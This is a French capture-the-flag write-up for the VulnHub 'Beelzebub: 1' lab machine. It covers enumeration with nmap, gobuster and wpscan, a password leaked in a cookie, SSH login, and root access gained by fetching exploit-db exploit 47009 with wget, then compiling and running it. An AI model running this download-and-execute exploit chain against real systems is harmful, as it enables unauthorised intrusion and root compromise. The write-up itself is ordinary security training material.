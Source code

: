 ```yaml
---
title: "CTF Beelzebub: 1"
date: 2021-11-09
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/beelzebub-1,742
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.3** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.31`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir beelzebub1 && cd beelzebub1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

On a un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.29 sur le port **80**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,xml,zip -o gobuster.txt
/index.php            (Status: 200) [Size: 271]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 317] [--> http://192.168.1.31/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://192.168.1.31/phpmyadmin/]
```

Sur le fichier "index.php", on a le message "Not Found" alors que si on regarde dans le code source, on a un indice.

```back
$ curl -i http://$IP/index.php 
HTTP/1.1 200 OK
[...]
<!--My heart was encrypted, "beelzebub" somehow hacked and decoded it.-md5-->
```

On décode la chaine de caractère "beelzebub" en md5.

```bash
$ echo -n beelzebub | md5sum
d18e1e22becbd915b45e0e655429d487
```

Si on tente d'accéder au serveur avec cette chaine de caractères, on a une erreur de redirection 301.

```bash
$ curl -i http://$IP/d18e1e22becbd915b45e0e655429d487
HTTP/1.1 301 Moved Permanently
[...]
```

Intéressant, poursuivons avec un **Gobuster** sur cette URL.

```bash
$ gobuster dir -u http://$IP/d18e1e22becbd915b45e0e655429d487 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,css,js,txt,php,xml,zip -o gobuster2.txt
/index.php            (Status: 200) [Size: 57718]
/wp-content           (Status: 301) [Size: 350] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-content/]
/wp-login.php         (Status: 200) [Size: 5694]                                                                      
/license.txt          (Status: 200) [Size: 19935]                                                                     
/wp-includes          (Status: 301) [Size: 351] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-includes/]
/readme.html          (Status: 200) [Size: 7368]                                                                       
/wp-admin             (Status: 301) [Size: 348] [--> http://192.168.1.31/d18e1e22becbd915b45e0e655429d487/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42] 
```

Apparement, on est sur un répertoire du CMS **Wordpress**.

Dans le répertoire "/d18e1e22becbd915b45e0e655429d487/wp-content/uploads"/ il y a 2 dossiers, "2021" et "Talk To VALAK". Dans ce second dossier, on arrive une page Web qui nous demande de saisir un nom. En soumettant le formulaire (bouton "Say Hi to VALAK"), on trouve un éventuel mot de passe dans le cookie de la requête POST.

```bash
curl -i -d 'name=john' http://$IP/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/Talk%20To%20VALAK/index.php
Set-Cookie: Password=M4k3Ad3a1
```

Il nous manque l'utilisateur de cet éventuel mot de passe.

```bash
wpscan --url http://$IP/d18e1e22becbd915b45e0e655429d487 -e u --ignore-main-redirect --force
[+] valak
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] krampus
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

## Pénétration

On arrive à se connecter au serveur avec le second utilisateur.

```bash
$ ssh krampus@$IP
password: M4k3Ad3a1
```

## Escalation

Dans le répertoire courant de l'utilisateur, on retrouve un historique des commandes intéressantes dont celle ci-dessous.

```bash
cat .bash_history
wget https://www.exploit-db.com/download/47009
mv 47009 ./exploit.c
gcc exploit.c -o exploit
./exploit
```

Elle nous indique l'exploit à utiliser, "CVE-2019-12181 : Serv-U FTP Server < 15.1.7 - Local Privilege Escalation".

```bash
$ cd /tmp
$ wget https://www.exploit-db.com/download/47009 -O exploit.c
$ gcc exploit.c -o exploit
$ ./exploit

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
opening root shell
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)
```

Et on trouve facilement le flag root.

```bash
$ cat /root/root.txt
8955qpasq8qq807879p75e1rr24cr1a5
```
